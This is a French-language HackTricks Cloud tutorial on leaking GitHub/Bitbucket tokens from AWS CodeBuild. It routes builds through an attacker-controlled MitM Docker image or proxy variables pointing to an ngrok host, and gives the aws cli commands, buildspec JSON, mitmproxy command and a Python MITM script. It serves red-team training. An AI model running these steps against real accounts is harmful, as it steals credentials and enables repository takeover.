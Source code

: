 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Récupérer les jetons configurés Github/Bitbucket

Tout d'abord, vérifiez s'il y a des identifiants source configurés que vous pourriez leak :
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si vous constatez que l'authentification, par exemple à Github, est configurée dans le compte, vous pouvez **exfiltrer** cet **accès** (**token GH ou token OAuth**) en faisant en sorte que Codebuild **utilise une image docker spécifique** pour exécuter la construction du projet.

À cette fin, vous pourriez **créer un nouveau projet Codebuild** ou modifier l'**environnement** d'un projet existant pour définir l'**image Docker**.

L'image Docker que vous pourriez utiliser est [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). C'est une image Docker très basique qui définira les **variables d'environnement `https_proxy`**, **`http_proxy`** et **`SSL_CERT_FILE`**. Cela vous permettra d'intercepter la plupart du trafic de l'hôte indiqué dans **`https_proxy`** et **`http_proxy`** et de faire confiance au CERT SSL indiqué dans **`SSL_CERT_FILE`**.

1. **Créer et télécharger votre propre image Docker MitM**
* Suivez les instructions du dépôt pour définir votre adresse IP de proxy et configurer votre certificat SSL et **construire l'image docker**.
* **NE PAS CONFIGURER `http_proxy`** pour ne pas intercepter les requêtes vers le point de terminaison des métadonnées.
* Vous pourriez utiliser **`ngrok`** comme `ngrok tcp 4444` pour définir le proxy vers votre hôte.
* Une fois que vous avez construit l'image Docker, **téléchargez-la dans un dépôt public** (Dockerhub, ECR...)
2. **Définir l'environnement**
* Créez un **nouveau projet Codebuild** ou **modifiez** l'environnement d'un projet existant.
* Définissez le projet pour utiliser l'**image Docker précédemment générée**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Configurer le proxy MitM sur votre hôte**

* Comme indiqué dans le **dépôt Github**, vous pourriez utiliser quelque chose comme :
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **version de mitmproxy utilisée était 9.0.1**, il a été signalé qu'avec la version 10, cela pourrait ne pas fonctionner.
{% endhint %}

4. **Exécutez la construction et capturez les identifiants**

*   Vous pouvez voir le token dans l'en-tête **Authorization** :

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Cela pourrait également être fait depuis l'aws cli avec quelque chose comme

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via le protocole HTTP~~

{% hint style="success" %}
**Cette vulnérabilité a été corrigée par AWS à un moment donné durant la semaine du 20 février 2023 (je pense que c'était vendredi). Donc un attaquant ne peut plus en abuser :)**
{% endhint %}

Un attaquant avec **des permissions élevées dans un CodeBuild pourrait fuir le token Github/Bitbucket** configuré ou si les permissions étaient configurées via OAuth, le **token OAuth temporaire utilisé pour accéder au code**.

* Un attaquant pourrait ajouter les variables d'environnement **http\_proxy** et **https\_proxy** au projet CodeBuild pointant vers sa machine (par exemple `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Ensuite, changer l'URL du dépôt github pour utiliser HTTP au lieu de HTTPS, par exemple : \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Ensuite, exécuter l'exemple de base depuis [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) sur le port pointé par les variables proxy (http\_proxy et https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Enfin, cliquez sur **Build the project**, les **identifiants** seront **envoyés en texte clair** (base64) au port mitm :

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Maintenant, un attaquant pourra utiliser le token depuis sa machine, lister tous les privilèges qu'il a et (ab)user plus facilement que d'utiliser directement le service CodeBuild.
{% endhint %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
